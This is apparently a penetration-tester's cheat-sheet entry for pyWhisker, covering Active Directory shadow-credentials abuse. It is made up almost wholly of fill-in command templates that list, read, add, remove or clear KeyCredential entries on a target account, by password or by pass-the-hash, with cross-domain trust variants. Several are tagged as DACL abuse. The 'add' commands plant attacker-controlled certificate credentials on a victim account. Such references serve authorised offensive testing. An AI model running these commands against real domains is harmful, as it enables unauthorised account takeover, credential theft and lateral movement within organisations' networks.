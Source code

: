 # pyWhisker

% dacl, shadow credentials, msDs-KeyCredentialLink, https://github.com/ShutdownRepo/pywhisker
#plateform/linux #target/remote #cat/AD/RECON 

## Attack requierements
```
GenericAll, GenericWrite, WriteProperty or Validated-SPN 
DC must have its own certificate and keys (RB-ERROR (16) : KDC_ERR_PADATA_TYPE_NOSUPP)
```

## list all current KeyCredentials ID and creation time (cred)
```
pywhisker.py --dc-ip <dc_ip> -d <domain_fqdn> -u <user> -p <password> --target <target_user> --action "list"
```


## list all current KeyCredentials ID and creation time (pth)
```
pywhisker.py --dc-ip <dc_ip> -d <domain_fqdn> -u <user> -H <nt_hash> --target <target_user> --action "list"
```


## get info on KeyCredential (pth)
```
pywhisker.py --dc-ip <dc_ip> -d <domain_fqdn> -u <user> -H <nt_hash> --target <target_user> --action "info" --device-id=<device_id>
```


## remove KeyCredential (pth)
#cat/ATTACK/AD/DACL-ABUSE
```
pywhisker.py --dc-ip <dc_ip> -d <domain_fqdn> -u <user> -H <nt_hash> --target <target_user> --action "remove" --device-id=<device_id>
```

## clear KeyCredential (pth)
#cat/ATTACK/AD/DACL-ABUSE
```
pywhisker.py --dc-ip <dc_ip> -d <domain_fqdn> -u <user> -H <nt_hash> --target <target_user> --action "clear" 
```

## add KeyCredential (pth)
#cat/ATTACK/AD/DACL-ABUSE
```
pywhisker.py --dc-ip <dc_ip> -d <domain_fqdn> -u <user> -H <nt_hash> --target <target_user> --action "add"  -f <pfx_file> -P <pfx_password|jubeaz>
```


## cross-domain - list all current KeyCredentials ID and creation time (cred) (TRUST)
#cat/ATTACK/AD/DACL-ABUSE
```
pywhisker.py --dc-ip <target_dc_ip> --target-domain <target_domain> -d <domain_fqdn> -u <user> -p <password> --target <target_user> --action "list"
```


## cross-domain - list all current KeyCredentials ID and creation time (pth)
```
pywhisker.py --dc-ip <target_dc_ip> --target-domain <target_domain> -d <domain_fqdn> -u <user> -H <nt_hash> --target <target_user> --action "list"
```


## cross-domain - get info on KeyCredential (pth)
```
pywhisker.py --dc-ip <target_dc_ip> --target-domain <target_domain> -d <domain_fqdn> -u <user> -H <nt_hash> --target <target_user> --action "info" --device-id=<device_id>
```


## cross-domain - remove KeyCredential (pth)
#cat/ATTACK/AD/DACL-ABUSE
```
pywhisker.py --dc-ip <target_dc_ip> --target-domain <target_domain> -d <domain_fqdn> -u <user> -H <nt_hash> --target <target_user> --action "remove" --device-id=<device_id>
```

## cross-domain - clear KeyCredential (pth)
#cat/ATTACK/AD/DACL-ABUSE
```
pywhisker.py --dc-ip <target_dc_ip> --target-domain <target_domain> -d <domain_fqdn> -u <user> -H <nt_hash> --target <target_user> --action "clear" 
```

## cross-domain - add KeyCredential (pth)
#cat/ATTACK/AD/DACL-ABUSE
```
pywhisker.py --dc-ip <target_dc_ip> --target-domain <target_domain> -d <domain_fqdn> -u <user> -H <nt_hash> --target <target_user> --action "add"  -f <pfx_file> -P <pfx_password|jubeaz>
```

